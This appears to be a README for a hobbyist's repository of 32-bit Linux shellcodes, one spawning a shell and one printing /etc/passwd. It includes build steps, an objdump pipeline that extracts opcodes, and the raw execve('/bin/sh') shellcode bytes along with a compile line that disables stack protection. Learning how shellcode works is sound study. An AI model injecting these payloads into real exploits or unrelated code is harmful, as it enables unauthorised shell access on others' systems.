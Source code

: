 Some Shellcodes
====
These are some shellcodes that i did in my free time.


# 1. 'sh' shell shellcode
Spawn a 'sh' shell.
[`README`](sh_shell/README.md)

# 2. 'cat /etc/passwd' file shellcode
Print the content of /etc/passwd file.
[`README`](etc_passwd/README.md)


Helper tools/commands
====
Use cmd_hex.py file to generate sequence of pushes for the command string by padding it it appropriately.

ex.

<pre>
$ python cmd_hex.py   
String:/bin/bash
Length 12
push 0x68736162		;hsab
push 0x2f6e6962		;/nib
push 0x2f2f2f2f		;////
</pre>

# Compiling
Use 'compile_link.sh' shell script to compile the asm files.

ex. to compile and link 'sh_shell.asm' file
<pre>
$ compile_link.sh shellcode_sh
</pre>

# Generate shellcodes from linked file

<pre>
objdump -d ./shellcode_sh | grep '[0-9a-f]:'|grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/'
</pre>

ex. for 'shellcode_sh'

<pre>
"\x31\xc0\x50\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
</pre>


Use the skeleton 'shellTest.c' file to test the shellcodes. Compile the c file using

<pre>
gcc -m32 -z execstack shellTest.c -o shellTest
</pre>

Final Note
=====
I am still learning coding shellcodes so i will be adding more shellcodes as i progress.

Author
====
Arun Kumar Shreevastava
